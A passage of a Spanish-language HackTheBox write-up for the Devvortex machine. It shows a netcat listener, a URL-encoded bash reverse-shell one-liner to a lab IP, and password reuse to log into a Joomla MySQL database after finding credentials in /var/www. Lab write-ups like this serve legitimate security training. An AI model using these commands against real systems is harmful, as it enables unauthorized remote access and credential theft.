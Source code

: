Estamos logrando llevar a cabo el **RCE**, así que procedemos a entablarnos una Reverse Shell con la máquina víctima.

1. Nos ponemos en escucha en nuestra máquina.
```bash
nc -nlvp PORT
```

2. Ponemos el one liner urlencode para que nos envie la shell:
```bash
bash -c "bash -i >%26 /dev/tcp/10.10.x.x/PORT 0>%261"
```

![](/assets/images/htb-writeup-devvortex/Pasted image 20231125204932.png)

Estaríamos conectados, y sólo faltaría darle tratamiento a la TTY, qué sino sabemos como [((Entra a éste POST))](https://4uli.github.io/tratamiento-tty/)

# Escalada de Privilegios #1 
___
Vemos los usuarios válidos del sistema con directorios en **home**, viendo qué tiene un directorio personal un usuario llamado "**logan**", así qué me gustaría migrar a éste usuario & ya qué el que estamos actualmente no tiene ningún privilegio qué podamos aprovechar para convertirnos a Root, por lo qué se me ocurre ver sí hay reutilización de contraseñas, pero no.

Indagando, en la carpeta del código fuente del **sub-dominio**, en "**/var/www/**", vemos el recurso.
![](/assets/images/htb-writeup-devvortex/Pasted image 20231125205328.png)

![](/assets/images/htb-writeup-devvortex/Pasted image 20231125205546.png)

vemos lo qué aparentemente sería el usuario de la base de datos **MySQL**, corroboro qué haya algún puerto con este servicio corriendo.

![](/assets/images/htb-writeup-devvortex/Pasted image 20231125205928.png)

Qué suele usarse para servicio **MySQL**, así que opto por intentar ingresar con éste usuario & reusando la contraseña que usé para el **CMS** para ver si logro acceso.

```bash
mysql -u lewis -p -h localhost -D joomla
```

![](/assets/images/htb-writeup-devvortex/Pasted image 20231125210145.png)

Logrando acceso, así qué listando las tablas interesantes de la **DB Joomla**, me encontré con una tabla de mi interés.
![](/assets/images/htb-writeup-devvortex/Pasted image 20231125210255.png)

que tendría como contenido en sus columnas, lo siguiente:

![](/assets/images/htb-writeup-devvortex/Pasted image 20231125211225.png)
